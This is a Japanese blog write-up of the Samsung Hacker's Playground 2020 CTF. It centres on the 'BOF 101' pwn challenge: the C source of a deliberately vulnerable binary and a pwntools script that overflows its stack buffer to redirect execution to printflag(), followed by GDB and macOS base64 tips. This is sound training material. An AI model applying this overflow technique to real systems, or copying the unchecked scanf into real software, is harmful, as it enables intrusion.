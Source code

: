 ```yaml
---
title: "Hacker's Playground Writeup (Samsung Security Tech Forum 2020)"
date: 2020-08-18T15:00:00+09:00
lastmod: 2020-08-18T15:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fhackers_playground_2020%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://playground.sstf.site/](https://playground.sstf.site/)

<br />
Samsung主催のCTFっぽいですね。

平日火曜日に6時間だけやっていて、たまたま年休を取っていたので参加できました。

<br />
275 points で、最終順位は 90位 でした。

<img src="https://captureamerica.github.io/writeups/img/hackers_playground_2020_Score.png" alt="hackers_playground_2020_Score.png">

<br />
といっても、最初の方のチャレンジにはTutorial（ほぼwriteup）が付いていて、その通りにやれば 275 points 取れます。

見たところ、43位〜114位はみんな 275 points でした。:)

<br />
以下、チャレンジです。

<img src="https://captureamerica.github.io/writeups/img/hackers_playground_2020_Challenges1.png" alt="hackers_playground_2020_Challenges1.png">
<br />
<img src="https://captureamerica.github.io/writeups/img/hackers_playground_2020_Challenges2.png" alt="hackers_playground_2020_Challenges2.png">

<br />

Tutorialが付いていたやつしか解いてないし、Tutorialががほぼwriteupなので、別途自分がwriteupを書くほどのことでもないんですが、Pwnのチャレンジだけ記録に残しておきます。

<u><b>いちおう、これはTutorialを見ずに解きました。</b></u>


<br /><br />
## [Pwn]: BOF 101 (50 points)
- - -
### Challenge
> You might have heard about BOF.
<br />
It's the most common vulnerability in executable binaries.
<br /><br />
The binary is running at:
<br />
nc bof101.sstf.site 1337.
<br /><br />
Can you smash it?
<br />
Just execute printflag() function and get the flag!


Attachment:

- bof101 (64bit ELF)

- bof101.c

ソースの中身

```C
#include <stdio.h>
//#include <fcntl.h>
//#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void printflag(){ 
	char buf[32];
	FILE* fp = fopen("/flag", "r"); 
	fread(buf, 1, 32, fp);
	fclose(fp);
	printf("%s", buf);
	fflush(stdout);
}

int main() {
	int check=0xdeadbeef;
	char name[140];
	printf("printflag()'s addr: %p\n", &printflag);
	printf("What is your name?\n: ");
	fflush(stdout);
	scanf("%s", name);	
	if (check != 0xdeadbeef){
		printf("[Warning!] BOF detected!\n");
		fflush(stdout);
		exit(0);
	}
	return 0;
}
```



<br />
### Solution
とりあえず、2回アクセスしてみて2回とも同じアドレスが取れたので、スクリプトで読み取る処理はせず、スクリプトの中でそのままアドレスを書いてます。

<pre>
$ nc bof101.sstf.site 1337
printflag()'s addr: 0x555555555229
What is your name?
: aaa

$ nc bof101.sstf.site 1337
printflag()'s addr: 0x555555555229
What is your name?
: bbb
</pre>


<br />

```Python
#!/usr/bin/env python
from pwn import *

s = remote('bof101.sstf.site', 1337)

payload = b'A' * 140
payload += p64(0xdeadbeef)
payload += b'A' * 4 # 16 byte alignment
payload += p64(0x555555555229)

s.recvline()
s.recvline()
s.sendlineafter(": ", payload)
print(s.recvall())
```

<br />

Flag: `SCTF{n0w_U_R_B0F_3xpEr7}`




<br /><br />
<br /><br />
## おまけ１
- - -
まずは、Tutorialに書いてあった中から、勉強になったことをPickup。

GDBのオプションです。

{{< highlight sh "linenos=table,hl_lines=4" >}}
> x/s $rcx
"Rev3ngineering1"...

> set print element 0
> x/s $rcx
"Rev3ngineering1sc00l!"
{{< / highlight >}}

<br />
使ったことのないオプションだったので、ググって以下の説明を見つけました。

[https://stackoverflow.com/questions/233328/how-do-i-print-the-full-value-of-a-long-string-in-gdb](https://stackoverflow.com/questions/233328/how-do-i-print-the-full-value-of-a-long-string-in-gdb)

> Set a limit on how many elements of an array GDB will print. If GDB is printing a large array, it stops printing after it has printed the number of elements set by the set print elements command. This limit also applies to the display of strings. When GDB starts, this limit is set to 200. Setting number-of-elements to zero means that the printing is unlimited.

へぇ〜。

.gdbinitに書いておけばいいのかな。


<br /><br />
<br /><br />
## おまけ２
- - -
最近、Macbook Airを購入して、またMacをメインに使い出しました。

チャレンジのひとつの中に、`base64 -i -d` というのが出てきて、`base64 -d`がMacだと`base64 -D`になるのは知ってたんですが、`-i`オプションもMacだと別の意味になるようです。

いちいちアタマを切り替えるのが面倒なので、Gnu版base64をMacで使えないか調べてみたら、`gbase64` というのがすでにMacに入っていたことが判明。

<br />
aliasを設定しておきました。

<pre>
alias base64='gbase64'
</pre>

<br />
これで、ハッピー。



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

